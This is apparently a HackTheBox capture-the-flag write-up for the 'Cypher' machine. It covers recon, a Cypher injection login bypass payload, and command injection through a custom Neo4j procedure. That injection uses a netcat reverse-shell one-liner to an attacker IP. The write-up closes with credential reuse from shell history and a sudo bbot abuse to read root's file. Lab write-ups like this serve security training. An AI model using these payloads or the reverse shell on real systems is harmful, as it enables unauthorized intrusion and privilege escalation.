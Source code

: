 ```yaml
---
title: Cypher
published: 2025-03-02
description: "Cypher is a medium-difficulty box that demonstrates Cypher injection, JAR file reversing, and privilege escalation through bbot."
image: /banner/Cypher.png
tags: [Linux, Medium, Cypher Injection, Neo4j, bbot]
category: "HackTheBox"
draft: false
lang: "en"
---
```


# Description

Cypher is a medium-difficulty box that demonstrates Cypher injection, JAR file reversing, and privilege escalation through bbot.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sat Mar  1 19:30:40 2025 as: nmap -vvv -F -4 -sSCV -oN fast_tcp-_scan.txt 10.10.11.57
Nmap scan report for cypher.htb (10.10.11.57)
Host is up, received echo-reply ttl 63 (0.032s latency).
Scanned at 2025-03-01 19:30:40 GMT for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two open ports, `22` and `80`. I will check the HTTP response `Location` header, which indicates a redirect. Sometimes, it reveals the domain.

```bash
$ curl -sI http://10.10.11.57/ | rg 'Location'
Location: http://cypher.htb
```

It redirects to the `cypher.htb` domain. Add the domain to the `/etc/hosts` file

```bash
10.10.11.57 cypher.htb
```

# 80 - TCP

## Enumeration

I'll just fuzz the web application to see if we can find any hidden endpoints.

```bash
$ feroxbuster -n --no-state -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://cypher.htb/
...
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      162l      360w     4562c http://cypher.htb/index
200      GET      179l      477w     4986c http://cypher.htb/about
200      GET      126l      274w     3671c http://cypher.htb/login
200      GET       63l      139w     1548c http://cypher.htb/utils.js
307      GET        0l        0w        0c http://cypher.htb/demo => http://cypher.htb/login
200      GET        3l      113w     8123c http://cypher.htb/bootstrap-notify.min.js
405      GET        1l        3w       31c http://cypher.htb/api/auth
307      GET        0l        0w        0c http://cypher.htb/api/ => http://cypher.htb/api/api
307      GET        0l        0w        0c http://cypher.htb/api => http://cypher.htb/api/docs
200      GET        7l     1223w    80496c http://cypher.htb/bootstrap.bundle.min.js
200      GET        2l     1293w    89664c http://cypher.htb/jquery-3.6.1.min.js
200      GET      876l     4886w   373109c http://cypher.htb/logo.png
200      GET     7333l    24018w   208204c http://cypher.htb/vivagraph.min.js
200      GET      162l      360w     4562c http://cypher.htb/
200      GET       12l     2173w   195855c http://cypher.htb/bootstrap.min.css
301      GET        7l       12w      178c http://cypher.htb/testing => http://cypher.htb/testing/
404      GET        1l        2w       22c http://cypher.htb/demos
200      GET     5632l    33572w  2776750c http://cypher.htb/us.png
...
```

The web fuzzer reveals an interesting `/testing/` endpoint, which contains the file `custom-apoc-extension-1.0-SNAPSHOT.jar`.

<p align="center">
  <img src="/machines/cypher/testing.png" alt="JAR File" />
</p>

## JAR File

Then, use `jadx-gui` to decompile the bytecode.

<p align="center">
  <img src="/machines/cypher/command_injection.png" alt="Command Injection" />
</p>

I found a command injection vulnerability in `CustomFunctions`, but we haven't identified a way to reach that code yet. Therefore, let's continue analyzing the web application.<br>
Next, explore the web application, noting that you'll need to log in. I recommend using Burpsuite while exploring the web application. Since it's a login page, it's worthwhile to try injecting a single quote (`'`) to see if it breaks the query.

## Cypher Injection

<p align="center">
  <img src="/machines/cypher/login_error.png" alt="Login Error" />
</p>

The application throws an error, indicating a potential vulnerability to Cypher injection, since the query syntax is Cypher. The injection only works on `username` parameter and it's returning `h.value as hash` at the end of the query. <br>
The `h` is comes from `h:SHA1` so it should be a SHA1 hash. We can bypass the authentication by making the username query true and return arbitrary SHA1 hash that matched plaintext in the `password` parameter.

Payload :

```json
{
  "username": "' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' as hash//",
  "password": "test"
}
```

Accessing the `/demo` endpoint reveals that we can now execute arbitrary Cypher queries.

<p align="center">
  <img src="/machines/cypher/web_query.png" alt="Main website" />
</p>

After a while, I found that the database contained no useful information. We can list all the procedures using `SHOW PROCEDURES` to see if there are any interesting ones.

<p align="center">
  <img src="/machines/cypher/procedures.png" alt="Procedures" />
</p>

## Command Injection

And we can see two custom procedures, that's comes from the JAR file we found earlier. Let's just call the `custom.getUrlStatusCode` procedure and use `;` to inject a command.

```cypher
CALL custom.getUrlStatusCode("nuhuh;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.116 9001 >/tmp/f")
```

# Shell as neo4j

## Enumeration

If you run the `history` command, you'll see a command containing a password. This password might be worth trying for other users on this machine which is the `graphasm` user.

```bash
neo4j@cypher:~$ history
history
    1  neo4j-admin dbms set-initial-password <password>
```

It can be found from the `/home/graphasm/bbot_preset.yml` file too.

Just SSH into the machine as `graphasm` user.

# Shell as graphasm

## User flag

```bash
graphasm@cypher:~$ cat user.txt
deadbeef4aa252b7921aebf9fee9fake
```

## Sudo access

The current user can execute `/usr/local/bin/bbot` with `ALL` access.

```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

By looking at the help command, we can read a file using the `-d` and `-cf` flag. You can add `--dry-run` flag so that we don't need an actual target.

## Root flag

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
...
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: deadbeef391d500f1073fab93010fake
...
```

